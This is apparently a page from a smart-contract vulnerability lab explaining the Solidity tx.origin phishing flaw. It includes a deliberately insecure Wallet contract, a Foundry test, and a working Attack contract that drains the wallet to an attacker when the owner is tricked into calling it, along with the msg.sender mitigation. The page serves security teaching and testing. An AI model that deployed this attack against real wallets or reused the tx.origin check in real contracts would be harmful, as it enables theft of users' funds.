 # txorigin - phishing  
[txorigin.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/txorigin.sol)  
**Name:** Insecure tx.origin Vulnerability

**Description:**  
tx.origin is a global variable in Solidity; using this variable for authentication in
a smart contract makes the contract vulnerable to phishing attacks.

**Scenario:**  
Wallet is a simple contract where only the owner should be able to transfer
Ether to another address. Wallet.transfer() uses tx.origin to check that the
caller is the owner. Let's see how we can hack this contract

**What happened?**  
Alice was tricked into calling Attack.attack(). Inside Attack.attack(), it
requested a transfer of all funds in Alice's wallet to Eve's address.
Since tx.origin in Wallet.transfer() is equal to Alice's address,
it authorized the transfer. The wallet transferred all Ether to Eve.

**Mitigation:**
It is advisable to use msg.sender.

**REF:**

https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing

**Contract:**  
``` 
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // check with msg.sender instead of tx.origin
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
```
****How to Test:****

forge test --contracts src/test/**txorigin.sol** -vvvv
```
// A function to test exploitation of the use of tx.origin.
function testtxorigin() public {
    // The addresses of 'alice' and 'eve' are obtained from the Ethereum virtual machine.
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice is given 10 ether and Eve is given 1 ether.
    vm.deal(address(alice), 10 ether);
    vm.deal(address(eve), 1 ether);

    // A prank is played on Alice.
    vm.prank(alice);

    // Alice deploys a Wallet contract with 10 ether.
    WalletContract = new Wallet{value: 10 ether}();

    // The owner of the Wallet contract is logged.
    console.log("Owner of wallet contract", WalletContract.owner());

    // A prank is played on Eve.
    vm.prank(eve);

    // Eve deploys an Attack contract and provides the address of Alice's Wallet contract.
    AttackerContract = new Attack(WalletContract);

    // The owner of the Attack contract is logged.
    console.log("Owner of attack contract", AttackerContract.owner());

    // The balance of Eve is logged.
    console.log("Eve of balance", address(eve).balance);

    // Another prank is played on Alice and Alice is tricked into calling the attack function.
    vm.prank(alice, alice);
    AttackerContract.attack();

    // The tx.origin address and the msg.sender address are logged.
    console.log("tx origin address", tx.origin);
    console.log("msg.sender address", msg.sender);

    // The updated balance of Eve is logged.
    console.log("Eve of balance", address(eve).balance);
}

// The Attack contract that is used to exploit the Wallet contract.
contract Attack {
    address payable public owner;
    Wallet wallet;

    // The constructor takes a Wallet contract as argument.
    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    // The attack function transfers all ether from the Wallet contract to the owner of the Attack contract.
    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
```
Red box: transferred all Ether to Eve.
![Alt text](image-15.png)